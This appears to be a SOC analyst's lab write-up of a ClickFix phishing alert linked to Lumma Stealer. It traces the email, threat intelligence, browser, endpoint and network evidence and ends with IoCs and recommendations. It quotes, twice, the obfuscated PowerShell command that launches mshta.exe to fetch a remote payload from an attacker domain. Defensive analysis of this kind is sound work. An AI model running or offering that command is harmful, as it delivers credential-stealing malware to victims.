






# SOC338 – Lumma Stealer DLL Side-Loading via ClickFix Phishing

## Executive Summary

This investigation analyzed a **critical phishing campaign associated with Lumma Stealer**, a malware family commonly used to steal credentials, browser data, cryptocurrency wallets, and other sensitive information.

The investigation began after a phishing email impersonating a Microsoft Windows update notification triggered a security alert. By correlating **email telemetry**, **threat intelligence**, **browser history**, **endpoint telemetry**, and **network activity**, I confirmed that the targeted user interacted with the phishing infrastructure and executed an obfuscated PowerShell command that launched **`mshta.exe`** to retrieve attacker-controlled content.

The observed attack chain closely matched publicly documented **ClickFix phishing campaigns**, providing high confidence that the endpoint had entered the malware delivery phase.

Based on the available evidence, the incident was classified as a **True Positive** and escalated for Incident Response.


# Alert Overview



| Field | Value |
|---------|--------|
| Severity | Critical |
| Category | Phishing / Malware |
| Rule | SOC338 – Lumma Stealer DLL Side-Loading via ClickFix Phishing |
| Event ID | 316 |
| Detection Source | Email Security |
| Date | March 13, 2025 – 09:44 AM |
| Sender | update@windows-update.site |
| Recipient | dylan@letsdefend.io |
| SMTP Source IP | 132.232.40.201 |
| Subject | Upgrade your system to Windows 11 Pro for FREE |
| Device Action | Allowed |


# Investigation Timeline

| Time | Activity |
|------|----------|
| 09:44 | Phishing email delivered to the user |
| 09:45 | Email alert generated |
| Later | Threat Intelligence validated malicious infrastructure |
| Later | Browser history confirmed user interaction with phishing website |
| Later | Endpoint telemetry revealed obfuscated PowerShell execution |
| Later | LOLBin (`mshta.exe`) launched from PowerShell |
| Later | Remote payload retrieval identified |
| Later | Incident classified as True Positive and escalated |


# Technical Investigation

## Step 1 – Email Analysis

The investigation started by reviewing the email responsible for triggering the alert.

The message impersonated a Microsoft Windows update notification using the sender:

> **update@windows-update.site**

with the subject:

> **"Upgrade your system to Windows 11 Pro for FREE"**

The email attempted to convince the recipient to install a free Windows upgrade, a common social engineering technique used to increase user interaction.

Several characteristics immediately raised suspicion:

- External sender impersonating Microsoft.
- Fake Windows update theme.
- Free upgrade lure.
- Domain unrelated to Microsoft infrastructure.

### Email Evidence



| Field | Value |
|------|------|
| Sender | update@windows-update.site |
| Recipient | dylan@letsdefend.io |
| Subject | Upgrade your system to Windows 11 Pro for FREE |
| SMTP Source IP | 132.232.40.201 |
| Action | Allowed |

### Analyst Assessment

Although phishing indicators were immediately present, the investigation required additional evidence to determine whether the recipient interacted with the campaign and whether endpoint compromise occurred.


## Step 2 – Threat Intelligence Validation



The SMTP source IP observed in the alert was investigated using **LetsDefend Threat Intelligence**.

The address:

```
132.232.40.201
```

was identified as malicious infrastructure associated with **Lumma Stealer** activity.

This significantly increased confidence that the phishing email belonged to an active malware campaign rather than a generic spam message.

### Threat Intelligence Findings

| Indicator | Result |
|------|------|
| Source IP | 132.232.40.201 |
| Reputation | Malicious |
| Associated Malware | Lumma Stealer |
| Source | LetsDefend Threat Intelligence |

### Analyst Assessment

Threat Intelligence independently confirmed that the sender infrastructure was already associated with Lumma Stealer campaigns.

While this strongly supported the alert, infrastructure reputation alone could not determine whether the user had actually interacted with the phishing email.

## Step 3 – User Interaction Validation

The next phase focused on determining whether the targeted user interacted with the phishing campaign.

A review of the browser history confirmed that the victim visited:

```
windows-update.site
```

This finding represented an important milestone during the investigation because it confirmed successful user interaction with the phishing infrastructure.

Unlike many phishing alerts where delivery is observed but user interaction cannot be confirmed, this investigation demonstrated that the victim actually accessed the malicious website.

### Browser History Evidence



| Evidence | Value |
|------|------|
| Visited Domain | windows-update.site |
| Match with Email | Yes |
| User Interaction | Confirmed |

### Analyst Assessment

The investigation successfully confirmed that the phishing campaign progressed beyond email delivery.

At this stage, evidence showed:

- Successful phishing email delivery.
- User interaction with the phishing infrastructure.

The remaining objective was determining whether malicious code execution occurred on the endpoint.


## Step 4 – Endpoint Investigation

After confirming user interaction with the phishing website, the investigation shifted to **LetsDefend Endpoint Security** to determine whether the attack progressed into the malware execution phase.

The endpoint's terminal history revealed a highly suspicious PowerShell command:

### Finding 1 – Obfuscated PowerShell Execution



**Observed Command**

```powershell
powershell -Command ('ms]]]ht]]]a]]].]]]exe https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4' -replace ']')
```

After removing the obfuscation, the command becomes:

```cmd
mshta.exe https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4
```

### Why this is Suspicious

Several characteristics immediately stood out:

- PowerShell was intentionally obfuscated.
- Character replacement was used to evade basic detection mechanisms.
- The command launched **`mshta.exe`**, a well-known Windows LOLBin.
- `mshta.exe` attempted to retrieve remote content hosted on attacker-controlled infrastructure.

This execution pattern is frequently observed in **ClickFix phishing campaigns**, where victims are tricked into executing PowerShell commands displayed by fake CAPTCHA or verification pages.

### Analyst Assessment

This represented the strongest endpoint artifact identified during the investigation.

The combination of:

- phishing email,
- confirmed website visit,
- obfuscated PowerShell,
- LOLBin abuse,
- and remote payload retrieval

strongly indicated that the attack had progressed into the malware delivery stage.

At this point, the investigation had enough evidence to classify the endpoint activity as malicious. The remaining step was validating the network activity generated by the command and correlating all telemetry sources into a complete attack chain.


## Step 5 – Network Activity Correlation



The final phase of the investigation focused on validating whether the malicious PowerShell command generated outbound communication with attacker-controlled infrastructure.

Using **LetsDefend Log Management**, I reviewed network events associated with both the phishing campaign and the infrastructure referenced by the PowerShell command.

The investigation identified communications involving:

| Source | Destination | Purpose |
|------|------|------|
| 172.16.17.216 | 132.232.40.201 | Initial SMTP delivery |
| Affected Endpoint | overcoatpassably.shop | Remote payload retrieval |

The observed traffic was fully consistent with the endpoint activity previously identified.

### Analyst Assessment

The network telemetry validated that the endpoint attempted to communicate with the same attacker-controlled infrastructure referenced in the PowerShell command.

This significantly increased confidence that the attack successfully progressed into the malware delivery phase.


# Evidence Correlation

No single artifact was used to classify this incident.

Instead, multiple independent telemetry sources were correlated throughout the investigation.

## Email Evidence

✅ Microsoft-themed phishing email.

✅ External sender impersonating Windows Update.

✅ Social engineering lure offering a free Windows 11 upgrade.


## Threat Intelligence Evidence

✅ SMTP source IP identified as malicious.

✅ Infrastructure associated with **Lumma Stealer** campaigns.


## User Activity Evidence

✅ Browser history confirmed that the victim accessed:

```
windows-update.site
```

This demonstrated successful user interaction with the phishing campaign.


## Endpoint Evidence

✅ Obfuscated PowerShell execution.

✅ Character replacement used for evasion.

✅ Execution of the LOLBin **mshta.exe**.

✅ Remote payload retrieval initiated.


## Network Evidence

✅ Communication with attacker-controlled infrastructure confirmed.

✅ Infrastructure matched the endpoint command execution.


## ClickFix Attack Chain Reconstruction

The collected evidence closely matches the behavior observed in modern **ClickFix phishing campaigns**.

```text
Phishing Email
        │
        ▼
Victim visits phishing website
        │
        ▼
Fake CAPTCHA / Verification prompt
        │
        ▼
Victim executes PowerShell command
        │
        ▼
PowerShell deobfuscates command
        │
        ▼
mshta.exe launched
        │
        ▼
Remote payload retrieved
        │
        ▼
Lumma Stealer delivery
```

### Analyst Conclusion

The investigation successfully reconstructed the complete attack chain.

Rather than relying on a single malicious indicator, the investigation correlated:

- Email telemetry
- Threat Intelligence
- Browser history
- Endpoint telemetry
- Network activity

The combined evidence demonstrated a complete phishing-driven malware delivery chain consistent with publicly documented **ClickFix** campaigns distributing **Lumma Stealer**.

The alert was therefore classified as a **True Positive** requiring Incident Response.


# MITRE ATT&CK Techniques Identified

| Tactic | Technique | ID | Evidence from Investigation |
|---------|-----------|------|----------------------------|
| Initial Access | Phishing | **T1566** | The attack originated from a phishing email impersonating a Windows Update notification. |
| Execution | User Execution: Malicious Link | **T1204.001** | Browser history confirmed that the victim visited the phishing website after interacting with the email. |
| Execution | Command and Scripting Interpreter: PowerShell | **T1059.001** | Endpoint telemetry revealed execution of an obfuscated PowerShell command. |
| Defense Evasion | Obfuscated Files or Information | **T1027** | Character replacement was used to conceal the PowerShell command and evade basic detection mechanisms. |
| Defense Evasion | Signed Binary Proxy Execution: Mshta | **T1218.005** | PowerShell launched the legitimate Windows binary `mshta.exe` to retrieve attacker-controlled content. |
| Command and Control | Ingress Tool Transfer | **T1105** | `mshta.exe` attempted to retrieve remote content hosted on attacker-controlled infrastructure. |
| Credential Access | Credentials from Web Browsers | **T1555.003** | The observed campaign was associated with Lumma Stealer, malware known to target browser-stored credentials. |


# Indicators of Compromise (IoCs)

## Email Indicators

| Type | Indicator |
|------|-----------|
| Sender | `update@windows-update.site` |
| Recipient | `dylan@letsdefend.io` |
| Subject | `Upgrade your system to Windows 11 Pro for FREE` |


## Infrastructure Indicators

| Type | Indicator |
|------|-----------|
| SMTP Source IP | `132.232.40.201` |
| Phishing Domain | `windows-update.site` |
| Payload Infrastructure | `overcoatpassably.shop` |


## Endpoint Indicators

| Type | Indicator |
|------|-----------|
| LOLBin | `mshta.exe` |
| Script Interpreter | `PowerShell` |
| Obfuscated Command | `('ms]]]ht]]]a]]].]]]exe...' -replace ']'` |


## Commands Observed

```powershell
powershell -Command ('ms]]]ht]]]a]]].]]]exe https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4' -replace ']'
```

Deobfuscated command:

```cmd
mshta.exe https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4
```


# Incident Classification

| Field | Value |
|------|------|
| Classification | **True Positive** |
| Severity | Critical |
| Attack Type | ClickFix Phishing / Lumma Stealer Delivery |
| Escalated to IR | Yes |


# Escalation Note

**True Positive.**

The investigation confirmed that the targeted user interacted with a phishing campaign impersonating a Windows Update notification.

Threat Intelligence identified the sender infrastructure as malicious and associated with **Lumma Stealer** activity.

Browser history confirmed that the victim accessed the phishing website, after which endpoint telemetry revealed execution of an obfuscated PowerShell command launching **`mshta.exe`** to retrieve remote content from attacker-controlled infrastructure.

The observed attack chain closely matched publicly documented **ClickFix** phishing campaigns.

Based on the correlation between **email telemetry**, **threat intelligence**, **browser history**, **endpoint activity**, and **network telemetry**, the incident was classified as a confirmed **True Positive** and escalated to the Incident Response team.


# Recommendations

- Immediately isolate the affected endpoint.
- Reset all potentially compromised user credentials.
- Invalidate browser sessions and authentication tokens.
- Review browser-stored credentials and sensitive information.
- Perform threat hunting for the identified infrastructure across the environment.
- Investigate persistence mechanisms and additional payload execution.
- Assess potential credential theft and data exfiltration.


# Lessons Learned

- Phishing investigations should never rely solely on email analysis. Correlating browser history, endpoint telemetry, network activity, and threat intelligence significantly increases confidence in the final classification.
- Modern **ClickFix** campaigns rely heavily on **social engineering** rather than software vulnerabilities, making user awareness an essential defensive control.
- Legitimate Windows binaries such as **`mshta.exe`** should always be evaluated within their execution context, as they are frequently abused as LOLBins to execute attacker-controlled content.
- Threat Intelligence provides valuable context but should always be corroborated with endpoint and network evidence before confirming compromise.


# Key Takeaways

This investigation demonstrates the importance of correlating **email telemetry**, **Threat Intelligence**, **browser activity**, **endpoint telemetry**, and **network logs** to accurately reconstruct a modern phishing attack.

Rather than relying on a single indicator, the investigation followed a structured methodology to validate every stage of the attack, successfully identifying a **ClickFix phishing campaign** delivering **Lumma Stealer** through **PowerShell**, **mshta.exe**, and attacker-controlled infrastructure.
